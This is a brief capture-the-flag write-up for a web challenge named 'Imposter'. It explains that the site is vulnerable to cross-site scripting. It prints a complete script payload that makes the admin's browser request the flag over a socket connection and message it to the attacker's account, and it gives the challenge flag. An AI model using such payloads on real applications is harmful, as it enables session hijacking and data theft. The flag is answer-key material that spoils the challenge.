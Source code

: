 # Imposter
It is vulnerable to xss.
so what we can do is, send a socket message as admin to get the flag from the server and send it to yourself.

<script>s=io();s.on('connect', function() {s.emit('join')});s.on('message', function(data){s.emit('json',{'to':'lmao#9370','message':data.content,'time':'00:00:00 AM'}); s.close()});setTimeout(function() {s.emit('flag')},500)</script>

Flag: `gigem{its_like_xss_but_with_extra_steps}`
